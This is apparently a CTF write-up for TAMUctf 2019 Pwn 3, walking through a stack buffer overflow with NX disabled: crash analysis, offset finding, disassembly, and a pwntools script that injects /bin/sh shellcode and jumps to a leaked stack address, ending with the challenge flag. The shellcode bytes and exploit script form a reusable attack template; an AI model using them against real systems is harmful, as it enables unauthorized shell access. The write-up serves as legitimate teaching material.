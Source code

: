 ```yaml
---
layout: single
title: TAMUctf 2019 Pwn Write-up 3 of 6
excerpt: Part 3 of my TAMUctf pwn write-up series. This challenge tackles stack buffer overflow leading to a shellcode execution.
date: '2019-03-16T13:06:00.746Z'
classes: wide
categories:
- ctf
- tamuctf
tags:
- pwn
- bof
- shellcode
---
```


Part 3 of my TAMUctf pwn write-up series.

| ![Shoutout to my teammates, hackstreetboys represent! — [hsb] ar33zy](https://cdn-images-1.medium.com/max/800/1*g3FaWZ3_fBnKeAakFt74Bg.png) |
|:--:|
| Shoutout to my teammates, hackstreetboys represent! — [hsb] ar33zy |

### Pwn 3 Solution (Difficulty: Easy, 387 pts.)

> This challenge tackles stack buffer overflow leading to a shellcode execution.

Let’s try to run the binary.

![Oohh, what does that address mean?](https://cdn-images-1.medium.com/max/800/1*nCkfivZIN-zSZFHRqsVMQg.png)

Again, the first part of the program prompted a statement, and asked for an input. But there is something notable on this statement. It says that we might need the given address in order to solve the problem. Let’s take note of that.

Now, let’s try to enter a very long string.  

![SEGFAULT !!!](https://cdn-images-1.medium.com/max/800/1*iaFQv0CiEwuzG3B23y8Fow.png)

We got a segmentation fault! Let’s inspect the core dump generated by this program crash.

![Ooohhh, complete return address overwrite.](https://cdn-images-1.medium.com/max/800/1*D-pt5GD13WDAYitu8CKajQ.png)

It looks like we have overwritten the return address with `0x41414141` or `AAAA` in ascii. We need to determine the length of our buffer before we can overwrite the return address.

We can use a tool like [https://github.com/Svenito/exploit-pattern](https://github.com/Svenito/exploit-pattern) to make our lives easier.

Let’s generate a long string pattern.

![Pattern length 1000](https://cdn-images-1.medium.com/max/800/1*tyrDbVRM2d4YYtKjJfp84A.png)

Let’s use the pattern to trigger the program crash.

![](https://cdn-images-1.medium.com/max/800/1*B1K2mjPvL_q_bs_vECxpZQ.png)
![](https://cdn-images-1.medium.com/max/800/1*nTqoWiTjA7gyMB7M1dIAJw.png)

We got `0x316b4130`. Let’s use this value to determine the offset.

![302 is the offset ](https://cdn-images-1.medium.com/max/800/1*_Z8uGM9keYxGRVbrRoJ5wg.png)

We got 302 as the offset needed before we overwrite the return address.

With these data, we can now control the program flow. But where do we want to jump after the return address? Let’s go back to the drawing board.

Let’s check the properties of the binary to have an idea on what we can do on this binary.

![Oohh, NX is disabled hehe :)](https://cdn-images-1.medium.com/max/800/1*Ug-PZWeHq-3LKOl21nEgXA.png)

NX is disabled.

Obviously, canary is disabled since we are able to overwrite the return address. But there is something notable here. NX or No-Execute marks certain areas of memory as non-executable. Basically, this property prevents execution of shellcodes. Since this property is disabled, we can insert and execute a shellcode on this program. Our next problem is where should we insert the shellcode.

Let’s go back and dissect the main function to have a better understanding of the program flow:

```
Dump of assembler code for function main:  
   0x565555e3 <+0>: lea    ecx,[esp+0x4]  
   0x565555e7 <+4>: and    esp,0xfffffff0  
   0x565555ea <+7>: push   DWORD PTR [ecx-0x4]  
   0x565555ed <+10>: push   ebp  
   0x565555ee <+11>: mov    ebp,esp  
   0x565555f0 <+13>: push   ebx  
   0x565555f1 <+14>: push   ecx  
   0x565555f2 <+15>: call   0x56555629 <__x86.get_pc_thunk.ax>  
   0x565555f7 <+20>: add    eax,0x19d5  
   0x565555fc <+25>: mov    edx,DWORD PTR [eax+0x28]  
   0x56555602 <+31>: mov    edx,DWORD PTR [edx]  
   0x56555604 <+33>: push   0x0  
   0x56555606 <+35>: push   0x0  
   0x56555608 <+37>: push   0x2  
   0x5655560a <+39>: push   edx  
   0x5655560b <+40>: mov    ebx,eax  
   0x5655560d <+42>: call   0x56555440 <setvbuf@plt>  
   0x56555612 <+47>: add    esp,0x10  
   0x56555615 <+50>: call   0x5655559d <echo> ` (1)  
   0x5655561a <+55>: mov    eax,0x0  
   0x5655561f <+60>: lea    esp,[ebp-0x8]  
   0x56555622 <+63>: pop    ecx  
   0x56555623 <+64>: pop    ebx  
   0x56555624 <+65>: pop    ebp  
   0x56555625 <+66>: lea    esp,[ecx-0x4]   
   0x56555628 <+69>: ret      
End of assembler dump.
```

Most of the instructions are just for the initialization of the program. But there is one notable function that we can expand, the `echo` function.

Disassembling the echo function gives us the following data:

```
Dump of assembler code for function echo:  
   0x5655559d <+0>: push   ebp  
   0x5655559e <+1>: mov    ebp,esp  
   0x565555a0 <+3>: push   ebx  
   0x565555a1 <+4>: sub    esp,0x134  
   0x565555a7 <+10>: call   0x565554a0 <__x86.get_pc_thunk.bx>  
   0x565555ac <+15>: add    ebx,0x1a20  
   0x565555b2 <+21>: sub    esp,0x8  
   0x565555b5 <+24>: lea    eax,[ebp-0x12a]   
   0x565555bb <+30>: push   eax  
   0x565555bc <+31>: lea    eax,[ebx-0x191c]  
   0x565555c2 <+37>: push   eax  
   0x565555c3 <+38>: call   0x56555410 <printf@plt> ` (1)  
   0x565555c8 <+43>: add    esp,0x10  
   0x565555cb <+46>: sub    esp,0xc  
   0x565555ce <+49>: lea    eax,[ebp-0x12a]   
   0x565555d4 <+55>: push   eax  
   0x565555d5 <+56>: call   0x56555420 <gets@plt> ` (2)  
   0x565555da <+61>: add    esp,0x10  
   0x565555dd <+64>: nop  
   0x565555de <+65>: mov    ebx,DWORD PTR [ebp-0x4]  
   0x565555e1 <+68>: leave    
   0x565555e2 <+69>: ret      
End of assembler dump.
```

This is what we saw when we tried to run the program. These are the things that we can get from observing the data above:

> (1) The program starts by printing a string that contains an address from the stack.

![](https://cdn-images-1.medium.com/max/800/1*nzLAaX3fLZz47PLAZ5AHWw.png)

Pseudocode of how the printf function is executed:

```
printf("Take this, you might need it on your journey %p!n", &ebp-0x12a)
```

> (2) The program also writes the user input to `$ebp-0x12a` which is the given address.

```
   0x565555ce <+49>: lea    eax,[ebp-0x12a] `*  
   0x565555d4 <+55>: push   eax  
   0x565555d5 <+56>: call   0x56555420 <gets@plt> 
```

With the following details, we can formulate this attack pattern:

```
- Get the value of `$ebp-0x12a`
- Insert shellcode to `$ebp-0x12a`
- Jump to shellcode by overwriting the return address with `$ebp-0x12a`
- Enjoy the shell
```

Our payload will look like this:

```
<shellcode> + <302 bytes buffer - shellcode length> + <given address> 
```

We can use this 32-bit shellcode from [http://shell-storm.org/shellcode/files/shellcode-827.php](http://shell-storm.org/shellcode/files/shellcode-827.php)

```
x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0x0bxcdx80
```

Sample exploit code:

```
./exploit.py

from pwn import *

r = remote("pwn.tamuctf.com",4323)

shellcode = "x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0x0bxcdx80"  
offset = 302

shell_addr = r.recvuntil("!").split(' ')[-1].replace('!','')  
log.info("Shellcode address: {}".format(shell_addr))  
shell_addr = int(shell_addr,16)

payload = ""  
payload += shellcode  
payload += "A"*(offset-len(shellcode))  
payload += p32(shell_addr)

r.sendline(payload)  
r.interactive()
```

Flag: `gigem{r3m073_fl46_3x3cu710n}`

-

Thank you for reading. Hope you learned something from this write-up. Feel free to drop any comments on this one. 

— ar33zy
